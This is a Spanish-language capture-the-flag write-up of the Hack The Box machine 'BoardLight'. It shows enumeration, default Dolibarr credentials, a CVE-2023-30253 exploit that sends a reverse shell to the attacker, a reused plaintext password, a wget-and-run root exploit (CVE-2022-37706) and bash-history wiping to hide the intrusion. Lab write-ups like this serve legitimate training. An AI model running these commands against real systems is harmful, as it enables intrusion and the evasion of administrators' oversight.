---


# Información

 - **Nombre**: BoardLight
- **Difilcultad**: Fácil
- **Plataforma**: Hack The Box
- **Autor**: cY83rR0H1t
- **Técnicas usadas**: Web enumeration, Default credentials, SUID enumeration, Reverse shell.

---

# 1. Reconocimiento

## 1.1 Verificación de conectividad

Se inició la fase de reconocimiento validando la disponibilidad del objetivo mediante el envío de trazas ICMP (Internet Control Message Protocol). Para ello, se enviaron cuatro paquetes a la dirección IP **10.129.231.37**.

```bash
PING 10.129.231.37 (10.129.231.37) 56(84) bytes of data.
64 bytes from 10.129.231.37: icmp_seq=1 ttl=63 time=274 ms
64 bytes from 10.129.231.37: icmp_seq=2 ttl=63 time=194 ms
64 bytes from 10.129.231.37: icmp_seq=3 ttl=63 time=217 ms
64 bytes from 10.129.231.37: icmp_seq=4 ttl=63 time=240 ms

--- 10.129.231.37 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3005ms
rtt min/avg/max/mdev = 194.346/231.316/274.025/29.549 ms
```

**Análisis de resultados:**

- **Disponibilidad:** Se confirmó que el host está activo con un 0% de pérdida de paquetes.
- **Sistema Operativo (OS Fingerprinting):** Basándose en el valor del **TTL (Time To Live)** recibido de **63**, se infiere que el sistema operativo objetivo es **Linux** (cuyo valor por defecto es 64). La diferencia de una unidad sugiere la existencia de un nodo intermediario o enrutador entre la máquina de ataque y la víctima.

## 1.2 Escaneo de Puertos (Port Scanning)

Tras confirmar la disponibilidad del host, se procedió a realizar un escaneo exhaustivo de todo el espectro de puertos TCP (**0-65535**) para identificar servicios expuestos. Se utilizó la técnica de **TCP SYN Scan** (`-sS`) para optimizar la velocidad y el sigilo.

**Comando ejecutado:**

```bash
nmap -p- --open --min-rate 5000 -sS -Pn -n 10.129.231.37 -oN full-ports.txt
```

**Justificación de parámetros:**

- `-p-`: Escaneo del rango completo de puertos (1-65535).
- `--open`: Filtra los resultados para mostrar únicamente puertos con estado "open".
- `--min-rate 5000`: Garantiza el envío de al menos 5000 paquetes por segundo, acelerando el descubrimiento en entornos controlados como Hack The Box.
- `-Pn`: Omite el descubrimiento de host (asume que está activo), evitando bloqueos por falta de respuesta ICMP.
- `-n`: Deshabilita la resolución DNS para reducir el tiempo de ejecución.

**Resultados**:



**Análisis y Estrategia:** Se detectaron únicamente dos servicios vectoriales. Si bien un escaneo **UDP** podría revelar servicios adicionales (como SNMP o DNS), debido a la alta latencia y baja fiabilidad de este protocolo, se priorizará el **análisis de versiones y vulnerabilidades** sobre los puertos TCP detectados para definir el vector de entrada inicial.

---

# 2. Enumeración

## 2.1 Enumeración de servicios y versiones

Tras identificar los puertos abiertos, se realizó un escaneo profundo para determinar las versiones específicas de los servicios y ejecutar scripts de reconocimiento automatizados mediante el **Nmap Scripting Engine (NSE)**.

**Comando ejecutado**:

```bash
nmap -p 22,80 -sVC 10.129.231.37 -oN  service-detection.txt
```

**Nota técnica:** El parámetro `-sCV` es una combinación de `-sC` (scripts por defecto) y `-sV` (detección de versiones). Es importante notar que, aunque se pueden combinar, la sintaxis estándar preferida suele ser `-sC -sV` o `-sCV` (el orden de los factores no altera el producto, pero `-sVC` es menos común en la documentación oficial).



### Análisis de Resultados (Hallazgos)

A través del escaneo de servicios, se extrajo la siguiente información crítica:

- **Puerto 22/TCP (SSH):**
    
    - **Versión:** `OpenSSH 8.2p1`
    - **Información adicional:** El banner indica que se ejecuta sobre **Ubuntu (4ubuntu0.5)**. Esto confirma que el sistema operativo objetivo es una distribución Linux (específicamente Ubuntu Focal Fossa), lo cual es coherente con el TTL de 63 identificado anteriormente.

- **Puerto 80/TCP (HTTP):**
    
    - **Versión:** `Apache httpd 2.4.41`
    - **Información adicional:** El servidor web está activo. Los scripts de Nmap revelan que la página web no tiene título.

## 2.2 Enumeración de servicio HTTP

Debido a que la información inicial de Nmap es limitada, se procedió a realizar una inspección técnica de las tecnologías del lado del servidor y del cliente utilizando la herramienta **WhatWeb**.

**Comando usado**:

```bash
Whatweb http://10.129.231.37
```

**Análisis de resultados**:

```bash
http://10.129.231.37 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[info@board.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.231.37], JQuery[3.4.1], Script[text/javascript], X-UA-Compatible[IE=edge]
```

|**Componente**|**Hallazgo**|**Implicación Técnica**|
|---|---|---|
|**Dominio**|`board.htb`|La presencia de un dominio en el campo `Email` sugiere la posible existencia de **Virtual Hosting** (Vhosts). Es imperativo añadirlo al archivo `/etc/hosts`.|
|**Frameworks**|Bootstrap / JQuery 3.4.1|El sitio utiliza librerías modernas pero no necesariamente actualizadas. JQuery 3.4.1 tiene vulnerabilidades conocidas (ej. XSS), aunque su explotación suele ser compleja.|
|**Servidor**|Apache 2.4.41|Confirma una distribución Ubuntu Linux. Se buscarán vulnerabilidades específicas para esta versión de Apache.|

### **Hallazgos Críticos:**

- **Identificación de Virtual Host (`board.htb`):** Aunque la herramienta no detectó una redirección inmediata, el correo `info@board.htb` es un indicador sólido de que el servidor responde a un nombre de dominio específico. Esto abre la posibilidad de encontrar **subdominios** (ej. `admin.board.htb`) que no son visibles solo por la dirección IP.

## 2.3 Exploración de la página web

Tras configurar el dominio `board.htb` en el archivo local de resolución de nombres, se procedió a una inspección manual de la aplicación web para identificar vectores de ataque como parámetros de entrada o funciones de carga de archivos.



### Hallazgos de la Exploración

1. **Tecnologías del lado del Servidor:** Se confirmó la presencia de recursos con extensión `.php`. Al navegar por la estructura del sitio, se observó que la lógica de la aplicación parece estar fragmentada en archivos PHP individuales, lo que sugiere una arquitectura tradicional.

2. **Análisis del Formulario de Contacto:** Se realizó una prueba de envío de datos en el formulario de la sección de contacto para interceptar y analizar la petición.

    - **Comportamiento observado:** Al enviar el formulario, la página realiza una redirección inmediata a la raíz (`index.php`).
    - **Análisis del Tráfico (Inspector de Red):** Al monitorear la pestaña _Network_ de las herramientas de desarrollador, no se detectaron peticiones de tipo `POST` ni parámetros `GET` que transporten la información del formulario.
    - **Conclusión técnica:** El formulario es puramente estético (frontend) o carece de un _backend_ funcional en este dominio principal. Esto lleva a la hipótesis de que el vector de explotación real se encuentra en un directorio oculto o en un subdominio.

## 2.4 Enumeración de directorios

Tras el análisis dinámico, se procedió a realizar una fase de **Fuzzing** o fuerza bruta de directorios para descubrir rutas ocultas, archivos de configuración o paneles de administración que no están enlazados en el menú principal.

Para esta tarea se utilizó **Gobuster**, una herramienta de alto rendimiento escrita en Go.

**Comando usado**:

```bash
gobuster dir -u http://board.htb -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,txt,pdf,xml,doc,docx,md -t 100 -o directory-discovery.txt
```

**Desglose Técnico del Comando:**

- `dir`: Modo de enumeración de directorios y archivos.
- `-u http://board.htb`: Especifica la URL objetivo (usando el dominio configurado en `/etc/hosts`).
- `-w [ruta]`: Define el diccionario (_wordlist_) de búsqueda. Se utilizó la lista `medium.txt` de **SecLists**, un estándar en la industria por su equilibrio entre cobertura y tiempo.
- `-x php,txt,pdf...`: Extensiones de archivo adicionales. Es crítico buscar `.php` dado que el servidor utiliza esta tecnología, y `.txt` o `.md` para posibles notas de instalación o archivos `README`.
- `-t 100`: Establece el número de hilos (_threads_) concurrentes. Se configuró en 100 para agilizar el proceso en un entorno de laboratorio.
- `-o directory-discovery.txt`: Exportación de los hallazgos a un archivo para persistencia de datos.

### Análisis de resultados

Tras la ejecución de **Gobuster**, se identificaron los siguientes recursos en el servidor:

```bash
images               (Status: 301) [Size: 307] [--> http://board.htb/images/]
index.php            (Status: 200) [Size: 15949]
contact.php          (Status: 200) [Size: 9426]
about.php            (Status: 200) [Size: 9100]
css                  (Status: 301) [Size: 304] [--> http://board.htb/css/]
do.php               (Status: 200) [Size: 9209]
js                   (Status: 301) [Size: 303] [--> http://board.htb/js/]
```

**Interpretación de hallazgos:**

- **Recursos Identificados:** La mayoría de los archivos `.php` corresponden a la interfaz visible de la web. Sin embargo, destaca el archivo `do.php`, el cual podría ser un _endpoint_ de procesamiento de datos que amerita una inspección manual posterior.
- **Restricciones de Acceso:** Los directorios `/images`, `/js` y `/css` cuentan con el listado de directorios (_Directory Listing_) desactivado, impidiendo la visualización directa de su contenido.

## 2.5 Enumeración de subdominios

Dado que el dominio principal no presenta vectores de ataque críticos inmediatos, se procedió a realizar una enumeración de **Virtual Hosts** para descubrir aplicaciones paralelas alojadas en la misma infraestructura. Para ello, se utilizó la herramienta **Wfuzz**.

**Comando ejecutado:**

```bash
wfuzz -c --hl=517 -t 200 --oF dom-enum.txt -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.board.htb" http://board.htb/
```

**Desglose técnico del comando:**

- `-c`: Activa la salida con colores para una mejor interpretación visual.
- `--hl 517`: **Filtro de exclusión.** Oculta todas las respuestas que tengan 517 líneas (ruido/falsos positivos generados por el servidor por defecto).
- `-t 200`: Establece 200 hilos simultáneos para acelerar el proceso de fuerza bruta.
- `-f dom-enum.txt`: Exporta los resultados encontrados a un archivo de texto.
- `-w`: Especifica el diccionario de subdominios de **SecLists**.
- `-H "Host: FUZZ.board.htb"`: Inyecta las palabras del diccionario en la cabecera HTTP `Host`, técnica necesaria para identificar Virtual Hosts.

### Análisis de resultados (Wfuzz)

El escaneo reveló la existencia de un subdominio único que responde a una configuración de host distinta:

```bash
================================================================
ID           Response   Lines    Word       Chars       Payload 
================================================================
000000072:   200        149 L    504 W      6360 Ch     "crm" 
```

**Acción realizada:** Se identificó el subdominio **`crm.board.htb`**. Al presentar una longitud de líneas (149 L) y caracteres (6360 Ch) distinta a la página principal, se confirma que aloja una aplicación diferente. Se procedió a actualizar el archivo `/etc/hosts` para habilitar el acceso:
```bash
# Actualización de /etc/hosts
10.129.231.37  board.htb crm.board.htb
```

## 2.6 Exploración de subdominio e identificación de credenciales

Al acceder al subdominio identificado, se localizó una instancia del software **Dolibarr ERP & CRM**. El análisis de la interfaz de autenticación permitió identificar tanto la tecnología como la versión exacta en uso.



### **Hallazgos Críticos**

**1. Autenticación mediante Credenciales por Defecto (CWE-1392)** Se realizó una fase de búsqueda de inteligencia en fuentes abiertas (OSINT) para identificar credenciales de fábrica asociadas a Dolibarr.

- **Resultado:** El sistema permitió el acceso al panel de administración utilizando el par de credenciales: `admin` : `admin`.
- **Impacto:** Acceso total a la configuración del CRM, gestión de usuarios, datos de clientes y módulos del sistema.



**2. Vulnerabilidad RCE en Dolibarr 17.0.0 (CVE-2023-30253)** Se identificó que la versión instalada (**17.0.0**) es vulnerable a un fallo de seguridad crítico.

- **Naturaleza de la vulnerabilidad:** Aunque se clasifica inicialmente como un **Stored XSS**, en versiones específicas de Dolibarr, este vector puede escalarse a una **Inyección de Código PHP (RCE)** aprovechando la funcionalidad de plantillas de sitios web (_Website Module_).

---

# 3. Explotación (Acceso inicial)

## 3.1 ### Ejecución del Vector de Ataque (RCE via Dolibarr)

Tras identificar que la versión 17.0.0 de Dolibarr es vulnerable a la inyección de código en el módulo de plantillas (**CVE-2023-30253**), se seleccionó un exploit automatizado desarrollado en Python3 por el investigador `nikn0laty`.

**Fuente del script usado**: [nikn0laty](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)

### Preparación del Entorno de Ataque

Antes de ejecutar el exploit, se configuró un entorno de escucha para capturar la conexión entrante de la consola remota (_reverse shell_).

**Comandos ejecutados en la máquina atacante:**

1. **Descarga del exploit:** `wget https://github.com/nikn0laty/Exploit-Dolibarr-17.0.0-RCE/blob/main/exploit.py`.
   
2. **Configuración del Listener:** `nc -nlvp 4444`
    - _Explicación:_ Se utiliza **Netcat** en modo escucha (`-l`) para esperar la conexión en el puerto 4444.

#### **Ejecución del Exploit**

A diferencia de otros vectores, este script se ejecuta desde la **máquina atacante**, interactuando con la API/Interfaz web de Dolibarr para forzar al servidor a devolvernos una shell.

**Sintaxis de ejecución:**

```bash
python3 exploit.py http://crm.board.htb admin admin <IP_ATACANTE> 4444
```

**Desglose técnico de la ejecución:**

- **URL Objetivo:** Se apunta al subdominio `crm.board.htb` donde reside la vulnerabilidad.
- **Credenciales:** Se utilizan las claves por defecto `admin:admin` obtenidas en la fase anterior para autenticarse en el CMS.
- **Payload:** El script automatiza la creación de una página en el "Website Module", inyecta un payload PHP malicioso y lo ejecuta, enviando la consola hacia la IP del atacante por el puerto 4444.



## 3.2 Tratamiento de TTY

Tras recibir la conexión entrante de la _reverse shell_, la consola obtenida es limitada (no interactiva). Se procedió a estabilizar la TTY para permitir el uso de comandos interactivos, autocompletado con tabulador y gestión de señales del teclado.

**Procedimiento ejecutado:**

1. **Generación de una PTY (Pseudo-Terminal):** `script /dev/null -c bash`
    - _Explicación:_ El comando `script` permite crear una nueva sesión de shell Bash simulando un terminal real.
2. **Suspensión de la shell:** `Ctrl + Z`
    - _Explicación:_ Se envía el proceso de la shell al segundo plano (_background_) para configurar el terminal local.
3. **Configuración del terminal local:** `stty raw -echo; fg`
    - _Explicación:_ * `stty raw`: Indica a nuestra máquina atacante que pase los caracteres directamente a la shell remota sin procesarlos.
        - `-echo`: Desactiva el eco local (para no ver los comandos duplicados).
        - `fg`: Trae de vuelta la shell suspendida al primer plano (_foreground_).
4. **Reinicio y configuración de variables de entorno:** `reset xterm` `export TERM=xterm` `export SHELL=/bin/bash`.
    - _Explicación:_ Esto define que el terminal es de tipo `xterm` y que la shell por defecto es `bash`, permitiendo funciones como limpiar la pantalla (`clear`).

## 3.3 Exploración y movimiento lateral

Tras obtener acceso inicial, se realizó una auditoría local de permisos, binarios **SUID** y **Capabilities**, sin identificar vectores de explotación directos. Ante esto, se inició una inspección exhaustiva de los directorios de la aplicación web en busca de secretos expuestos.

### **Identificación de Credenciales en Archivos de Configuración**

Se ejecutó un rastreo recursivo de archivos de configuración utilizando el comando `find`.

```bash
find . -name conf\* 2>/dev/null
```

**Hallazgo Crítico:** En la ruta `/var/www/html/crm.board.htb/htdocs/conf/conf.php`, se localizaron las credenciales de conexión a la base de datos en texto plano:

- **Usuario DB:** `dolibarrowner`
- **Contraseña:** `serverfun2$2023!!`

#### **Análisis de Usuarios y Reutilización de Contraseñas**

Antes de interactuar con la base de datos, se procedió a enumerar los usuarios del sistema con capacidad de inicio de sesión (_login shell_) consultando el archivo `/etc/passwd`.

```bash
root:x:0:0:root:/root:/bin/bash
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
```

**Explotación (Movimiento Lateral):** Dada la tendencia de los administradores a reutilizar contraseñas entre servicios y cuentas de sistema, se intentó realizar una transición de usuario (_Switch User_) hacia la cuenta de **larissa** utilizando la contraseña hallada en el archivo de configuración.



**Resultado:** **Éxito.** Se logró el movimiento lateral, obteniendo acceso a la cuenta del usuario `larissa` y, por consiguiente, al archivo de bandera `user.txt` ubicado en su directorio _home_.



---

# 4. Post-Explotación

## 4.1 Escalada de Privilegios: Explotación de SUID (CVE-2022-37706)

Tras obtener acceso como el usuario `larissa`, se realizó una nueva auditoría de archivos con permisos especiales. La elevación de privilegios fue posible gracias a una configuración insegura en un binario del entorno de escritorio **Enlightenment**.

**Identificación del Vector**

Se ejecutó una búsqueda de binarios con el bit **SUID** activo pertenecientes a **root**.

**Comando:**

```bash
find / -perm -4000 -user root 2>/dev/null
```

### **Hallazgo Crítico** 

Se identificó el binario `/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys` con permisos SUID. El análisis de versión reveló que el sistema ejecuta **Enlightenment v0.23.1**.

**Vulnerabilidad Identificada: CVE-2022-37706**

La investigación técnica confirmó que esta versión específica sufre de una vulnerabilidad de **Escalada de Privilegios Local (LPE)**. El fallo reside en cómo el binario `enlightenment_sys` maneja los parámetros de montaje, permitiendo a un usuario local sin privilegios ejecutar comandos arbitrarios como root.



#### Escalada a root

Se utilizó un script de automatización desarrollado por el investigador `d3ndr1t30x` para aprovechar esta debilidad.

**Procedimiento:**

1. **Transferencia del exploit:** Dado que la máquina objetivo no tiene salida directa a Internet, se utilizó un servidor HTTP temporal en la máquina atacante para transferir el script hacia el directorio `/tmp` de la víctima (un directorio con permisos de escritura universal).

2. **Ejecución en el objetivo:**

```bash
cd /tmp
wget http://<IP_ATACANTE>:<PUERTO>/exploit.sh
chmod +x exploit.sh
./exploit.sh
```

**Resultado:** El script explotó con éxito la vulnerabilidad en el binario SUID, proporcionando una shell con privilegios de **root** de forma inmediata.

## 4.2 Post-Explotación y Prueba de Compromiso

Con acceso total al sistema, se procedió a la recuperación de la bandera final (root flag) como prueba del compromiso total del servidor.



**Comando:** `whoami && cat /root/root.txt`



---

# 5. Limpieza de rastro

Tras completar los objetivos de la auditoría y verificar el compromiso total del sistema, se procedió a la eliminación de archivos temporales y la limpieza de registros de actividad para restaurar la integridad del sistema y eliminar cualquier rastro de la intrusión.

#### **Procedimiento de Limpieza Ejecutado:**

1. **Eliminación de Herramientas y Scripts:** `rm /tmp/exploit*`

    - **Justificación:** Se eliminaron todos los archivos descargados y generados durante la fase de explotación (como `exploit.sh` y archivos temporales de Dolibarr) para evitar que software malicioso permanezca en el almacenamiento del servidor.

2. **Limpieza del Historial de Comandos:** `history -c && history -w`

    - **`history -c`**: Borra el historial de comandos de la sesión actual en la memoria RAM.
    - **`history -w`**: Sobrescribe el archivo `.bash_history` en el disco con el historial vacío.
    - **Justificación:** Esto impide que un administrador pueda revisar los comandos ejecutados (como contraseñas escritas o rutas exploradas) mediante el comando `history`.

3. **Cierre de Sesión Seguro:** `exit`

    - **Justificación:** Finalización de la conexión SSH/Reverse Shell para liberar procesos y descriptores de archivos.

---
